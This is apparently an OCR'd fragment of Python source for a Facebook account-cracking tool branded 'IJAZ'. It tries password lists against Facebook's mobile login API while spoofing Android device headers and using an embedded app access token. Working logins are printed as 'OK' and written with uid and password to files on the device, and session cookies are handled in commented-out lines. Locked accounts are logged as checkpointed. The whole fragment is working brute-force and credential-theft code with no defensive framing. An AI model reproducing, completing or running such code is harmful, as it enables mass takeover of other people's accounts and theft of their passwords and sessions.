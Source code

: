     'x-fb-lsd': 'v_VRkTBq3ev5FxrdxaVkgz',
}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [IJAZ-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        #print("\r\r\033[1;33m Cookie: "+coki)
                                        #open('/sdcard/IJAZ-COKIE.txt','a').write(str(uid)+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/IJAZ-rnd-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                        print('\r\r\x1b[38;5;205m [IJAZ-CP] '+str(uid)+' | '+pas+'\033[1;97m')
                                        open('/sdcard/IJAZ-rnd-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass
#method4
def IJAZ4(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [IJAZ-M4] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'